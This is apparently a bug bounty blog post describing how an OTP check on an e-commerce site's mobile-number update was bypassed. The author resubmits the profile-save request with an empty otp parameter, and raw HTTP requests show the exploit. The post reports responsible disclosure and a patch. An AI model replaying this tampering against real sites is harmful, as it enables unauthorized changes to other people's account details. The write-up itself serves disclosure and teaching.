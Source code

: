 ```yaml
---
layout: post
title: How I bypassed OTP mechanism used for updating Sensitive Information
---
```

I found this vulnerability in a ecommerce site, the site has a responsible disclosure program

So the vulnerability was in profile<!--more--> updation page, there was a form by which a user can update his/her details, the details also includes `Mobile Number`, when a user tried to update any other detail it was updated normally but when user click on Edit button at `Mobile Number` field, OTP is sent to the registered email, and a popup occurs asking for the OTP, after entering OTP the number field can be enabled and updated

**OTP Validation Request**

```
POST /customer/otp-val HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 85
Connection: close
Cookie: --COOKIES--

otp=123456&type=profile_update_otp&formId=myAccountVerifyOTPForm&mobile_no=NUMBERHERE
```

**Data Updation Request**

```
POST /customer/account HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 222
Connection: close
Cookie: --COOKIES--
Upgrade-Insecure-Requests: 1

csrf_token=--CSRFTOKEN--&save_profile=Save+Changes&otp=123456&fname=Test&lname=Test&mobile=NUMBERHERE
```
## Where is the problem in this flow

There is two different requests one is validating the OTP, and enabling the number field, and another is when actually after updating the number a request is sent with Save button to save the number on the server

There is `otp` parameter in both the requests but the application is completely dependent on the first request, and in the second request the `otp` parameter is not validated

## Exploitation

As mentioned earlier that if user try to update any other field the data updation request is sent which also contains `Mobile Number`

So I clicked on edit `Name` and intercepted the request with burp suite, changed the `mobile` parameter with whatever number and send the request

**Malicious Requests** //Empty `otp` parameter
```
POST /customer/account HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 222
Connection: close
Cookie: --COOKIES--
Upgrade-Insecure-Requests: 1

csrf_token=--CSRFTOKEN--&save_profile=Save+Changes&otp=&fname=Test&lname=Test&mobile=NUMBERHERE
```

The Mobile number is updated without any validation

The vulneraility is now patched

**Time Frame**

Intial Report: 27-May-2020

First Response: 27-May-2020

Patch Released: 2-June-2020
